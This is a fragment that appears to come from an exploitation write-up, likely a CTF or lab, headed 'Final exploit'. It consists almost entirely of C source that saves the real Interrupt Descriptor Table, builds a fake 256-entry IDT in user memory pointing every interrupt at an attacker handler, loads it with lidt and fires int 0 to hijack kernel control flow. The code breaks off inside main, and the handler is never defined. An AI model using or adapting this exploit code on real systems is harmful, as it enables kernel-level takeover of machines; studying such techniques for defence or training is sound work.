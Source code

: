 ### Final exploit
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sys/mman.h>

#define INTERRUPT_SS 0x0010
#define INTERRUPT_FLAGS 0xee00
#define TOTAL_INTERRUPTS 0x100

struct IDT {
	uint16_t limit;
	uint64_t addr;
} __attribute__((packed));

typedef struct {
    uint16_t loword;
    uint16_t ss;
    uint16_t flags;
    uint16_t hiword;
    uint32_t hidword;
    uint32_t reserved;
} __attribute__((packed)) IDTEntry;

void interrupt_handler(void);
struct IDT fake_idt = {}, original_idt = {};

int create_fake_idt(struct IDT* out_idt, void * handler){
    IDTEntry *idt = mmap(NULL, sizeof(IDTEntry) * TOTAL_INTERRUPTS, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANON, -1, 0);

    if (idt == MAP_FAILED)
        return -1;
    
    IDTEntry entry = {
        .flags = INTERRUPT_FLAGS, 
        .ss = INTERRUPT_SS, 
        .hidword = (uint64_t) handler >> 32, 
        .hiword = ((uint64_t) handler & 0xffff0000) >> 16, 
        .loword = (uint64_t) handler & 0xffff};
    
    for (int i = 0; i < TOTAL_INTERRUPTS; i++){
        idt[i] = entry;
    }

    out_idt->addr = idt;
    out_idt->limit = sizeof(IDTEntry) * TOTAL_INTERRUPTS - 1;

    return 0;
}

int main(){
    asm volatile("sidt %0" : "=m" (original_idt));

    if (create_fake_idt(&fake_idt, interrupt_handler) < 0){
        fprintf(stderr, "Error creating fake IDT\n");
    }

    asm volatile ("lidt %0" : "=m" (fake_idt));
    asm volatile ("int 0");

```